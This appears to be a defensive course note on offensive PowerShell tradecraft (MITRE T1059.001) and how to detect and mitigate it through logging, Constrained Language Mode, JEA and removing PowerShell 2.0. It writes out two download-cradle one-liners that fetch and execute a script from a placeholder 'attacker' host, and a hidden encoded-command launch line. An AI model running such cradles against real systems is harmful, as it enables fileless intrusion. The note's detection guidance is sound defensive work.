

# Offensive PowerShell

Offensive PowerShell is the use of Windows' built-in automation engine as an attack tool — running code, moving laterally, and evading defenses without dropping new binaries to disk. Because PowerShell ships with Windows and is trusted by administrators, it is a premier **living-off-the-land (LOTL)** technique, catalogued by MITRE ATT&CK as **T1059.001**.

## Overview

PowerShell gives an attacker a fully featured scripting language, direct access to the .NET runtime and the Win32 API, and native remoting — all under a signed, Microsoft-trusted process (`powershell.exe` or `pwsh.exe`). This lets adversaries execute payloads **in memory**, blend into normal administrative activity, and reuse the same [PowerShell-Remoting](PowerShell-Remoting.md) channels that legitimate operators rely on.

The defensive answer is *visibility and lockdown*, not blocking: [PowerShell-Logging](PowerShell-Logging.md) captures what ran, while [Constrained-Language-Mode-and-JEA](Constrained-Language-Mode-and-JEA.md), WDAC/AppLocker, and [Execution-Policy-and-Signing](Execution-Policy-and-Signing.md) constrain what *can* run. This note focuses on understanding the tradecraft well enough to **detect and mitigate** it.

> [!IMPORTANT]
> **Execution policy is not a security boundary**
> `Set-ExecutionPolicy` is a safety feature to prevent accidental script execution — Microsoft states plainly it is **not** a security control. It is bypassed trivially (piping to stdin, `-Command`, `-EncodedCommand`, or `-ExecutionPolicy Bypass`). Real enforcement comes from application control (WDAC/AppLocker) plus Constrained Language Mode. See [Execution-Policy-and-Signing](Execution-Policy-and-Signing.md).

## Why PowerShell Is Attractive to Attackers

- **Trusted and pre-installed** — no tool needs to be delivered; the interpreter is already present and signed.
- **In-memory execution** — payloads can run without ever touching disk, defeating file-based antivirus.
- **Full .NET / Win32 access** — reflection, P/Invoke, and API calls enable advanced tradecraft.
- **Native remoting** — [PowerShell-Remoting](PowerShell-Remoting.md) (WinRM, ports 5985/5986) is a ready-made lateral-movement channel.
- **Obfuscation-friendly** — string manipulation, encoding, and aliasing frustrate naive signature matching (ATT&CK T1027).

## Common Offensive Techniques

### Download Cradles (T1105 — Ingress Tool Transfer)

A *download cradle* fetches a remote script and executes it directly in memory via `Invoke-Expression` (`IEX`), so nothing is written to disk. The classic form:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://attacker/stager.ps1')
```

A newer cmdlet-based variant:

```powershell
IEX (Invoke-WebRequest -Uri 'http://attacker/stager.ps1' -UseBasicParsing).Content   # untested
```

> [!WARNING]
> **Detection signal**
> The pattern `DownloadString` / `DownloadData` / `Invoke-WebRequest` immediately piped into `IEX` is a high-fidelity indicator. Script Block Logging (Event ID 4104) records the *deobfuscated* text of these commands even when they are encoded on the command line.

### Encoded and Obfuscated Commands (T1027 / T1140)

Attackers hide intent by Base64-encoding the entire command and launching a hidden, non-interactive shell:

```cmd
powershell.exe -NoProfile -WindowStyle Hidden -EncodedCommand <base64-UTF16LE>
```

The `-EncodedCommand` (`-enc`) value is UTF-16LE Base64. Because it is decoded *inside* the process, the plaintext is invisible on the command line but is recovered by AMSI and by script-block logging before execution.

### Living-off-the-Land Execution

Common flag combinations that suppress prompts and windows — worth alerting on:

| Flag | Purpose | Why it's suspicious |
|------|---------|---------------------|
| `-NoProfile` (`-nop`) | Skip user/host profiles | Avoids profile-based logging/defenses |
| `-WindowStyle Hidden` (`-w hidden`) | No visible window | Stealth execution |
| `-ExecutionPolicy Bypass` (`-ep bypass`) | Ignore execution policy | Runs unsigned scripts |
| `-EncodedCommand` (`-enc`) | Base64 payload | Obfuscates intent |
| `-NonInteractive` (`-noni`) | No prompts | Automation / unattended |

## AMSI — The Antimalware Scan Interface

AMSI (`amsi.dll`) is a Windows interface that lets antivirus/EDR inspect the **final, deobfuscated** script content at runtime, right before the scripting engine executes it — closing the gap that command-line obfuscation used to open. Offensive tooling therefore targets AMSI directly: **AMSI bypasses** attempt to patch `AmsiScanBuffer` in memory, corrupt the AMSI context, or force it into an error state so subsequent content is not scanned.

> [!NOTE]
> **Defensive takeaway**
> An AMSI bypass is itself a detectable event — the bypass code must first pass through AMSI and the script-block log. Monitor for tampering (reflection against `amsi.dll`, `System.Management.Automation.AmsiUtils`) rather than assuming AMSI alone is sufficient.

## Attack Chain

The following diagram shows a typical PowerShell-based intrusion flow and the control/telemetry that intersects each stage.



## Security Considerations

> [!WARNING]
> **Offense vs. control**
> - **Attack:** run a fileless payload in a trusted, signed process, obfuscated on the command line, moving laterally over WinRM — all without dropping tooling.
> - **Control:** you cannot realistically remove PowerShell, so make it *loud and constrained*. Enable **Script Block Logging** (Event ID **4104**) and **Module Logging** (Event ID **4103**), ship logs to a SIEM, and enforce **Constrained Language Mode** via WDAC/AppLocker so `Add-Type`, `New-Object`, and .NET reflection are blocked for non-privileged users.

- **Downgrade attacks** — Windows PowerShell 2.0 predates script-block logging and AMSI. If the v2 engine is still installed, an attacker can launch `powershell -Version 2` to evade both. Remove the PowerShell 2.0 optional feature.
- **Logging tampering** — attackers disable transcription or clear the `Microsoft-Windows-PowerShell/Operational` log. Alert on logging-configuration changes and on log clears (Security Event ID 1102), not just on script content.
- **Remoting as lateral movement** — restrict who can reach WinRM, and prefer [JEA](Constrained-Language-Mode-and-JEA.md) endpoints so remote operators get only the cmdlets their role requires.

## Best Practices

- Enable **Script Block Logging + Module Logging + Transcription** centrally via GPO — visibility before blocking. See [PowerShell-Logging](PowerShell-Logging.md).
- Enforce **Constrained Language Mode** through WDAC/AppLocker; do not rely on execution policy. See [Constrained-Language-Mode-and-JEA](Constrained-Language-Mode-and-JEA.md).
- **Remove PowerShell 2.0** to kill the downgrade-evasion path, and require PowerShell 5.1+ / 7.x.
- Restrict and monitor **WinRM remoting**; expose privileged tasks through **JEA** role-capability endpoints only.
- Alert on the high-signal patterns: `-EncodedCommand`, `IEX`+`DownloadString`, hidden/non-interactive launches, and AMSI/logging tampering.

## Troubleshooting

| Symptom | Likely cause & check |
|---------|----------------------|
| Suspicious script not visible in logs | Script Block Logging disabled — enable via GPO, or attacker used the v2 engine; check for `-Version 2` |
| Encoded command is unreadable | Decode the `-EncodedCommand` value as **UTF-16LE Base64**; Event ID 4104 also stores the deobfuscated text |
| Can't find PowerShell events | Windows PowerShell classic log = `Windows PowerShell`; modern engine = `Microsoft-Windows-PowerShell/Operational` (query with `Get-WinEvent`) |
| Legitimate script blocked | Constrained Language Mode / WDAC policy — sign the script and allow it through application control rather than loosening policy |

## References

- MITRE ATT&CK — T1059.001 Command and Scripting Interpreter: PowerShell: https://attack.mitre.org/techniques/T1059/001/
- Microsoft Learn — about_Logging_Windows (script block & module logging): https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows
- Microsoft Learn — Antimalware Scan Interface (AMSI): https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal
- Microsoft Learn — about_Execution_Policies: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies

## Related

- [PowerShell-Language-Fundamentals](PowerShell-Language-Fundamentals.md) — related note (cmdlets, pipeline, objects the attacker abuses)
- [PowerShell-Remoting](PowerShell-Remoting.md) — related note (WinRM lateral-movement channel)
- [Execution-Policy-and-Signing](Execution-Policy-and-Signing.md) — related note (why execution policy is not a boundary)
- [PowerShell-Logging](PowerShell-Logging.md) — related note (Event IDs 4103/4104, transcription — the core defense)
- [Constrained-Language-Mode-and-JEA](Constrained-Language-Mode-and-JEA.md) — related note (locking down what PowerShell can do)
- [PowerShell-Modules-and-Profiles](PowerShell-Modules-and-Profiles.md) — related note (profiles as an execution/persistence surface)
- [NTLM](../Active-Directory-Domain-Services-AD-DS/NTLM.md) — related note (credential-relay/auth abused during lateral movement)
- [Enterprise Windows Infrastructure Security](../Readme.md) — course hub
